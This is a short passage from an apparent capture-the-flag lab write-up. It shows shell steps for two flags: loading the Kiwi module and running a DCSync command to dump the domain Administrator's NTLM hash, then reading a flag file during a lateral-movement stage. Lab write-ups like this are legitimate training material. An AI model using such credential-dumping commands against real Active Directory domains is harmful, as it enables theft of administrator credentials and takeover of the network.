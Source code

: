 ### Flag 10: 

![image](https://github.com/user-attachments/assets/d1b85bc9-324c-45eb-b3ce-202a40dcee36)
</br>
```shell
load kiwi

dcsync_ntlm Administrator

4f0cfd309a1965906fd2ec39dd23d582
```

## Lateral Movement

### Flag 9: 

![image](https://github.com/user-attachments/assets/c667201d-0390-4e22-9b46-a149ad68cf82)
</br>
```shell
cd C:\

type flag9.txt

f7356e02f44c4fe7bf5374ff9bcbf872
```
